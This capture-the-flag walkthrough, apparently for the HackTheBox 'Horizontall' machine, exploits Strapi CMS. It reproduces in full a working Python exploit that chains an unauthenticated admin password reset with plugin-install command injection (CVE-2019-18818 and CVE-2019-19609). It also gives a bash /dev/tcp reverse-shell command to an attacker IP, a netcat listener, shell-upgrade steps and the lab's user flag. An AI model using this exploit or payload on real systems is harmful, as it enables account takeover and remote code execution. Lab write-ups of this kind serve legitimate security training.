Using Searchsploit on our local machine to search for possible exploits for the Strapi CMS we are presented with three options.
```bash
$ searchsploit “strapi”
```



Based on the information obtained from Searchsploit, we will download the exploit to our working directory.
```bash
$ searchsploit -m multiple/webapps/50239.py
```
Then rename the file to “strapi_exploit.py”
```bash
$ mv 50239.py strapi_exploit.py
```



Now we can take a closer look at the exploit to understand how it works.
```bash
$ emacs strapi_exploit.py
```


```bash

# Exploit Title: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)
# Date: 2021-08-30
# Exploit Author: Musyoka Ian
# Vendor Homepage: https://strapi.io/
# Software Link: https://strapi.io/
# Version: Strapi CMS version 3.0.0-beta.17.4 or lower
# Tested on: Ubuntu 20.04
# CVE : CVE-2019-18818, CVE-2019-19609

#!/usr/bin/env python3

import requests
import json
from cmd import Cmd
import sys

if len(sys.argv) != 2:
    print("[-] Wrong number of arguments provided")
    print("[*] Usage: python3 exploit.py <URL>\n")
    sys.exit()


class Terminal(Cmd):
    prompt = "$> "
    def default(self, args):
        code_exec(args)

def check_version():
    global url
    print("[+] Checking Strapi CMS Version running")
    version = requests.get(f"{url}/admin/init").text
    version = json.loads(version)
    version = version["data"]["strapiVersion"]
    if version == "3.0.0-beta.17.4":
        print("[+] Seems like the exploit will work!!!\n[+] Executing exploit\n\n")
    else:
        print("[-] Version mismatch trying the exploit anyway")


def password_reset():
    global url, jwt
    session = requests.session()
    params = {"code" : {"$gt":0},
            "password" : "SuperStrongPassword1",
            "passwordConfirmation" : "SuperStrongPassword1"
            }
    output = session.post(f"{url}/admin/auth/reset-password", json = params).text
    response = json.loads(output)
    jwt = response["jwt"]
    username = response["user"]["username"]
    email = response["user"]["email"]

    if "jwt" not in output:
        print("[-] Password reset unsuccessfull\n[-] Exiting now\n\n")
        sys.exit(1)
    else:
        print(f"[+] Password reset was successfully\n[+] Your email is: {email}\n[+] Your new credentials are: {username}:SuperStrongPassword1\n[+] Your authenticated JSON Web Token: {jwt}\n\n")
def code_exec(cmd):
    global jwt, url
    print("[+] Triggering Remote code executin\n[*] Rember this is a blind RCE don't expect to see output")
    headers = {"Authorization" : f"Bearer {jwt}"}
    data = {"plugin" : f"documentation && $({cmd})",
            "port" : "1337"}
    out = requests.post(f"{url}/admin/plugins/install", json = data, headers = headers)
    print(out.text)

if __name__ == ("__main__"):
    url = sys.argv[1]
    if url.endswith("/"):
        url = url[:-1]
    check_version()
    password_reset()
    terminal = Terminal()
    terminal.cmdloop()% 

```

Inside the script there is a function called check_version() that makes a request to /admin/init to check if the remote instance of Strapi is vulnerable to this exploit. We could visit this endpoint to verify manually if we can use this exploit.





We can confirm that the installed version of strapi is the same version required by the exploit. Therefore, we can attempt to execute the script to obtain a reverse shell. By reviewing the source code, we can see that it requires a URL parameter as input.
We run the exploit and it informs us that the execution is incorrect, indicating that the target URL parameter is missing. We then modify the command accordingly and execute the exploit again.
```bash
$ python3 strapi_exploit.py 

$ python3 strapi_exploit.py http://api-prod.horizontall.htb/ 
```



It appears that the exploit executed successfully, although we cannot be completely certain because it is a blind RCE, meaning no command output is returned. To verify code execution, we can attempt to establish a proper reverse shell. First, we set up a listener on our local machine.


```bash
$ nc -lvnp 443
```



Next, we send a Bash reverse shell payload through the exploit script. To generate the reverse shell command, we use the online resource https://www.revshells.com/.


```bash
$ bash -c 'bash -i >& /dev/tcp/10.10.16.94/443 0>&1'
```


And we got a reverse shell in our listener




Now we can do a TTY treatment;
```bash
$ script /dev/null -c bash

$ ctrl+z

$ stty raw -echo; fg

$ reset xterm

$ export TERM=xterm
```



It is important to note that the exploit chain is based on two separate CVEs. The first one, **CVE-2019-18818**, allows an attacker to reset the administrator password. After successfully authenticating to **:contentReference[oaicite:0]{index=0}**, the second vulnerability, **CVE-2019-19609**, can be exploited to achieve remote code execution.

If we go to /home/developer we will get the user flag


```bash
User Flag --> 13e8a19d20f47f7bf5a490fbe18cbd76
```


[Back](README.md)